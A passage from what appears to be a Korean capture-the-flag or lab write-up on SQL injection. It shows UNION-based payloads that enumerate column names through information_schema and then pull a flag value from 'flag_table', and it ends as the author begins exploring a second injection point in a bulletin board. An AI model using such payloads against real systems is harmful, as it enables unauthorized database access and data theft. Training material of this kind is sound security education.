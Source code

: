 ```sql
111' union select column_name from information_schema.columns where table_schema='sqli_6' and table_name='flag_table' limit 1,1 #
```

> **컬럼 이름: `flag`**

테이블명과 컬럼명을 모두 확인하였다.

이제 해당 테이블을 활용하여 **플래그 값**을 추출해보겠다.

```html
' union select flag from flag_table limit 1,1 #
```

![sqli6 flag](/assets/screenshots/sqli-point/sqli_6_flag.png)

**이렇게 최종적으로 flag까지 성공적으로 획득하였다.**

---

## SQL Injection Point 2

이번에는 **게시판 기능을 탐색**해보겠다.
